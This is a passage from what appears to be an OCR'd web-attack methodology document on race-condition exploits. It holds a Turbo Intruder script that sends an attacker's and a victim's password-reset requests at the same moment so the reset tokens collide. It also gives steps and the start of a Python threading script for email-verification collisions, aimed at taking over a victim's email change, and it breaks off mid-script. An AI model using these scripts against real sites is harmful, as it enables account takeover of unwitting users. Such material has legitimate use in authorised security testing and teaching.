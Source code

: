            # Request for victim's account
           victim_reset_req = '''POST /reset-password HTTP/2
       Host: vulnerable-website.com
       Content-Type: application/x-www-form-urlencoded
       
       email=victim@example.com'''
           
           # Queue both requests to execute simultaneously
           engine.queue(your_reset_req, None, gate='race')
           engine.queue(victim_reset_req, None, gate='race')
           
           # Open the gate to send all requests
           engine.openGate('race')
       
       def handleResponse(req, interesting):
           # Look for responses containing reset tokens or confirmation messages
           if "reset" in req.response.lower() and "token" in req.response.lower():
               table.add(req)
       ```
       
    2. **Email verification collisions**:
       - Step 1: Identify email verification or confirmation functionality
       - Step 2: Prepare two email change requests (one for attacker, one for victim)
       - Step 3: Send the requests simultaneously
       - Step 4: Check emails received to identify if tokens were mixed up
       - Step 5: Use any token sent to your email to verify the victim's email change
       - Example Python script for email verification race condition:
       ```python
       import requests
       import threading
       
       def change_email(session, url, email, thread_name):
           print(f"[{thread_name}] Sending email change request")
           response = session.post(
               url,
               json={"email": email}
           )
           print(f"[{thread_name}] Response: {response.status_code}")
           print(f"[{thread_name}] Response body: {response.text[:100]}")
           return response
       
       # Set up session with authentication
       session = requests.Session()
       session.headers = {
           "User-Agent": "Mozilla/5.0 ...",
           "Content-Type": "application/json",
           "Authorization": "Bearer valid_token_here"
       }
       